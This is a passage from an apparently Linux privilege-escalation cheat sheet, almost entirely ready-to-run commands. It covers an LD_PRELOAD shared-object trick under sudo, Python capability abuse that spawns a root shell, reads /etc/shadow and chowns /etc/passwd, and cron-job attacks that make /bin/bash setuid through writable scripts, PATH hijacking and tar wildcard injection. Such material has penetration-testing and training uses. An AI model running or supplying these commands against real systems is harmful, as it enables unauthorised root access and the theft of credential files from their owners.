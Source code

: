 ```bash
gcc -fPIC -shared -o shell.so shell.c -nostartfiles
sudo LD_PRELOAD=./shell.so find
```

### Capabilities Exploitation
```bash
# Find capabilities
getcap -r / 2>/dev/null

# Common capability exploits:

# cap_setuid+ep
# If python has cap_setuid
python -c "import os; os.setuid(0); os.system('/bin/bash')"

# cap_dac_read_search+ep  
# Can read any file
python -c "print(open('/etc/shadow').read())"

# cap_fowner+ep
# Can change file ownership
python -c "import os; os.chown('/etc/passwd', 1000, 1000)"
```

### Cron Job Exploitation

#### Cron Job Enumeration
```bash
# System-wide cron jobs
cat /etc/crontab
ls -la /etc/cron.*
cat /etc/cron.d/*

# User cron jobs
crontab -l
cat /var/spool/cron/crontabs/*

# Process monitoring for cron jobs
./pspy64 -pf -i 1000
```

#### Cron Job Exploitation Techniques
```bash
# Writable script in cron job
echo '#!/bin/bash' > /path/to/writable/script.sh
echo 'chmod +s /bin/bash' >> /path/to/writable/script.sh
# Wait for cron execution, then:
/bin/bash -p

# PATH variable exploitation in cron
echo '#!/bin/bash' > /tmp/cp
echo 'chmod +s /bin/bash' >> /tmp/cp
chmod +x /tmp/cp
# If cron job uses relative paths and /tmp is in PATH

# Wildcard injection
# If cron job does: tar czf /tmp/backup.tar.gz *
echo '#!/bin/bash' > shell.sh
echo 'chmod +s /bin/bash' >> shell.sh
chmod +x shell.sh
touch -- '--checkpoint=1'
touch -- '--checkpoint-action=exec=sh shell.sh'
```
